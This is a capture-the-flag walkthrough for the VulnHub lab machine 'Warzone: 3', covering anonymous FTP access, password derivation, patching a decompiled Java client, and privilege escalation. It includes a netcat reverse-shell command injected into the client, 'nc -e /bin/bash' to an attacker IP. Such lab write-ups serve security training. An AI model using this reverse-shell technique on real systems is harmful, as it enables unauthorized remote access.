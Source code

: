 # Warzone: 3

[Machine](https://www.vulnhub.com/entry/warzone-3-exogen,606/ "https://www.vulnhub.com/entry/warzone-3-exogen,606/")

## Reconnaissance

### nmap

* 21 - ftp
* 22 - ssh
* 4444 - kerberos...?

### ftp

Anonymous access is allowed.

* note.txt
* alienclient.jar

#### Credentials

from note.txt we got:

username:	alienum@exogenesis
password:	sha256(username)

To get a password execute next in python3 interpreter:
```
import hashlib

hashlib.sha256(b'alienum@exogenesis').hexdigest()
```

Also, we have a client app:

![app](screenshots/app.png)

### kerberos

I don't know what to gather from it. Moreover, I don't want to use Metasploit.

## Threat modeling

Here the attack vector is the `alienclient.jar` file which we can decompile and use with the right credential.

## Vulnerability analysis

Again, here is information leakage through the misconfiguration of ftp. It gives us the ability to modify the client-side application. That leads to remote code execution.

## Exploitation

In the source code you can see next part:

![source](screenshots/source.png)

After:
```
list.setCmd("nc -e /bin/bash 192.168.88.226 4444");
```

Compile it with `javac -d . source.java`. And we got a shell as "exomorph" user.

## Post exploitation

### Explore

A user "exomorph" has in his home directory 'encryptor' and encrypted file. But I can't decompile the program from the shell. So I copied the binary to my machine with `cat wrz3encryptor.jar | base64`.

### The decryption of the aliens

Decompile the jar and create a new package, change the mode to `Cipher.DECRYPT_MODE`. Got `aliens.txt`. 

### ssh

While I was in exomorph shell, I did `ls` in home dir and saw a user `anunnaki`. There are 3 passwords for this user. Got the anunnaki shell.

### gpg

"GnuPrivacy Guard (GPG) allows you to securely encrypt files so that only the intended recipient can decrypt them."

Decrypt the file with gpg:
```
gpg --decrypt secpasskeeper.jar.gpg > /tmp/secpasskeeper.jar
```

### secpasskeeper

Okay, again you need just decompile jar and delete a few lines. My source file is [here](post/secpasskeeper/src/Main.java).


## Sources

### gpg

[gpg](https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/ "https://www.howtogeek.com/427982/how-to-encrypt-and-decrypt-files-with-gpg-on-linux/")



